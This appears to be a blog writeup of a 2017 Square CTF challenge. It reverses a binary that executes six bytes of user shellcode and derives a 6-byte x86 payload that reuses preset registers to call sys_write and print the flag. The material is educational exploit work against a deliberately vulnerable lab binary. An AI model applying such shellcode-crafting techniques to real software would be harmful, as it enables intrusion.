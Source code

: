 ```yaml
---
layout: post
title: "Square CTF writeup — 6yte"
date: 2017-10-08 05:36:08 +0000
categories: blog
---
```


### Square CTF writeup — 6yte

https://gybos-zavyd-gitod-sapas-rolig.capturethesquare.com/

Clearly, this challenge is not worthy 1000 points, it is actually pretty easy if you are familiar with x86 assembly.

Download the binary, and do a quick decompile, go through the main() function and read_flag() function, we can find out:

```
read_flag()
```

```
read_flag()
```

```
v5 = mmap(NULL, 6, 7, 33, -1, 0);    if (v2 == 0) {        // 0x8048889        printf("Shellcode location: %p\n", v5);        v4 = &v6;        printf("Flag location: %p\n", &v6);        sleep(1);        read_flag(v4);        g4 = v4;        g5 = 5;        g3 = 1;        g1 = 4;        ((int32_t (*)())v5)();        return 0;    }
```

So, all we need to do in our shellcode is display the flag saved in v4. Since we have to write assembly code, now let’s take a look at the corresponding assembly code:

```
v4
```

```
0x80488c9:   50                               push eax0x80488ca:   e8 1c fe ff ff                   call 0x80486eb <read_flag>0x80488cf:   83 c4 10                         add esp, 0x100x80488d2:   8d 85 68 ff ff ff                lea eax, dword [ ebp + 0xffffff68 ]0x80488d8:   89 c7                            mov edi, eax0x80488da:   ba 05 00 00 00                   mov edx, 0x50x80488df:   bb 01 00 00 00                   mov ebx, 0x10x80488e4:   b8 04 00 00 00                   mov eax, 0x40x80488e9:   ff 65 e8                         jmp dword [ ebp + 0xffffffe8 ]
```

So the C variable v4 is actually eax register, and the flag is right at the address saved in eax. How can we show it?

```
v4
```

```
eax
```

```
eax
```

My first thought is to call printf(), it is not hard at all to find a %2x string in this binary, however, it is hard to figure out the address of printf().

```
printf()
```

```
%2x
```

```
printf()
```

Then, the second thought is to call write() directly. Lookup the syscall table, I realize that this must be the right direction because eax and ebx are already set properly for us in the binary!! Look, eax is already 0x4 which the syscall number of sys_write(), ebx is 0x1 which is STDOUT… Hmm, so all we need to do is:

```
write()
```

```
eax
```

```
ebx
```

```
eax
```

```
0x4
```

```
ebx
```

```
STDOUT
```

```
ecx
```

```
buf
```

```
v4
```

```
edi
```

```
edx
```

```
count
```

```
int 0x80
```

Therefore we get this:

```
% rasm2 'mov edx, 0x40; mov ecx, edi; int 0x80'ba4000000089f9cd80
```

Clearly this is longer than 6 bytes… As we can see there are some unnecessary 0’s, also note that edx was already set to 0x5, this means we only have to set dh instead of the whole edx!

```
edx
```

```
0x5
```

```
dh
```

```
edx
```

So the final shellcode is:

```
% rasm2 'mov dh, 0x1; mov ecx, edi; int 0x80'b60189f9cd80
```

Challenge solved!